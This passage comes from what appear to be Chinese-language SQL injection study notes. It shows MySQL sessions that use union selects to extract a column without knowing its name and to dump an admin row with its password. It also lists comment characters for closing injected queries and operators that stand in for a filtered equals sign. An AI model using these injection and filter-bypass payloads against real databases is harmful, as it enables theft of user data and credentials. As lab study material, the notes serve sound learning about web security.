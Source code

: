 ```
+-------------+
| 4           |
+-------------+
| 4           |
| 110@110.com |
| 119@119.com |
| 120@120.com |
+-------------+
4 rows in set (0.03 sec)

mysql> select e.4 from (select * from (select 1)a,(select 2)b,(select 3)c,(select 4)d union select * from user)e limit 1 offset 3;

+-------------+
| 4           |
+-------------+
| 120@120.com |
+-------------+
1 row in set (0.01 sec)

mysql> select * from user where id=1 union select (select e.4 from (select * from (select 1)a,(select 2)b,(select 3)c,(select 4)d
union select * from user)e limit 1 offset 3)f,(select 1)g,(select 1)h,(select 1)i;
+-------------+----------+----------+-------------+
| id          | username | password | email       |
+-------------+----------+----------+-------------+
| 1           | admin    | admin888 | 110@110.com |
| 120@120.com | 1        | 1        | 1           |
+-------------+----------+----------+-------------+
2 rows in set (0.04 sec)
```

+ 变量

需要一个请求两个注入？

#### 注释符

常用注释符：`#, --+, /**/`，可以用 `;%00` 代替

不用注释符，与后面的语句构造闭合就行，如 `||'1`，恰好与 `’ LIMIT 0,1` 闭合

#### 等号

like rlike regexp < , >  in

```
# in
mysql> select * from users where id in (1,3,6);
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
|  3 | Dummy    | p@ssword |
|  6 | superman | genious  |
+----+----------+----------+
3 rows in set (0.00 sec)

mysql> select * from users where username in ('Dumb', 'Dummy');
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
|  3 | Dummy    | p@ssword |
+----+----------+----------+
2 rows in set (0.00 sec)
```